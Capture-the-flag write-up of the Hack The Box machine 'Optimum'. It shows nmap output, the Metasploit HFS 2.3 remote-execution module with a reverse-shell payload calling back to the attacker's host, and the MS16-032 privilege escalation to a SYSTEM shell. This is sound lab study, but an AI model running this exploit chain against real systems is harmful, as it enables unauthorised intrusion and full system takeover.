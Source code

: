 
# HTB - Optimum
## OS - Windows

I started with an nmap scan of Optimum (IP address: 10.10.10.8)

```
└──╼ $sudo nmap -sC -sV 10.10.10.8
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-19 15:22 PDT
Nmap scan report for 10.10.10.8
Host is up (0.094s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.28 seconds

```

So only port 80 is up and running.

We see that the software used is "HttpFileServer" httpd 2.3. I fire up metasploit and search for HttpFileServer. Sure enough, there is an exploit module for this.

```
msf5 > search HttpFileServer

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution



```


I use that exploit

```
msf5 > use exploit/windows/http/rejetto_hfs_exec 

```

I set the options/. Only the RHOST was required. And then ran the module.

```
msf5 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] Using URL: http://0.0.0.0:8080/N224sid5itdo
[*] Local IP: http://172.25.252.98:8080/N224sid5itdo
[*] Server started.
[*] Sending a malicious request to /
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /N224sid5itdo
[*] Sending stage (176195 bytes) to 10.10.10.8
[*] Meterpreter session 2 opened (10.10.14.10:4444 -> 10.10.10.8:49167) at 2020-09-19 15:33:34 -0700

[!] Tried to delete %TEMP%\sfeWKJqCPBq.vbs, unknown result
[*] Server stopped.

meterpreter > 


```

Wasn't sure why the server stopped, but ls command showed the remote user directory.

```
meterpreter > ls
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   0       dir   2020-09-26 00:31:46 -0700  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 04:57:16 -0700  desktop.ini
100777/rwxrwxrwx  760320  fil   2014-02-16 03:58:52 -0800  hfs.exe
100444/r--r--r--  32      fil   2017-03-18 05:13:18 -0700  user.txt.txt

meterpreter > cat user.txt.txt

```


I got the user flag. 



I could not figure out how to get Admin privileges on Windows , so I watched IppSec's video. Using Metasploit, the payload has to be windows/x64/meterpreter/reverse_tcp.

```
msf5 exploit(windows/http/rejetto_hfs_exec) > set payload windows/x64/meterpreter/reverse_tcp
```

Now when I set all the options correctly (RHOST, LHOST, LPORT, SRVHOST), I see a meterpreter shell. 

```
meterpreter > ls
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   0       dir   2020-09-30 23:55:52 -0700  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 04:57:16 -0700  desktop.ini
100777/rwxrwxrwx  760320  fil   2014-02-16 03:58:52 -0800  hfs.exe
100444/r--r--r--  32      fil   2017-03-18 05:13:18 -0700  user.txt.txt

meterpreter > cat user.txt.txt

```

Background this session by pressing ctrl+z, and search for suggester. We find that metasploit has a post-exploitation module for privilege escalation - post/multi/recon/local_exploit_suggester.

Trying the following module worked:

```
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```

And then, running it and getting a shell, then browsing to get the flags.

```
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[*] Started reverse TCP handler on 10.10.14.10:4445 
[+] Compressed size: 1016
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\jZMymPNyo.ps1...
[*] Compressing script contents...
[+] Compressed size: 3596
[*] Executing exploit script...
	 __ __ ___ ___   ___     ___ ___ ___ 
	|  V  |  _|_  | |  _|___|   |_  |_  |
	|     |_  |_| |_| . |___| | |_  |  _|
	|_|_|_|___|_____|___|   |___|___|___|
	                                    
	               [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1396

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 1392
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

BySH70KSJjNuhCbmW3OonNOYrqTAo0RX
[+] Executed on target machine.
[*] Sending stage (176195 bytes) to 10.10.10.8
[*] Meterpreter session 2 opened (10.10.14.10:4445 -> 10.10.10.8:49164) at 2020-09-24 15:05:47 -0700
[+] Deleted C:\Users\kostas\AppData\Local\Temp\jZMymPNyo.ps1

meterpreter > ls
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   0       dir   2020-09-30 23:55:52 -0700  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 04:57:16 -0700  desktop.ini
100777/rwxrwxrwx  760320  fil   2014-02-16 03:58:52 -0800  hfs.exe
100444/r--r--r--  32      fil   2017-03-18 05:13:18 -0700  user.txt.txt

meterpreter > sysinfo
Computer        : OPTIMUM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > whoami
[-] Unknown command: whoami.
meterpreter > shell
Process 1876 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system

```

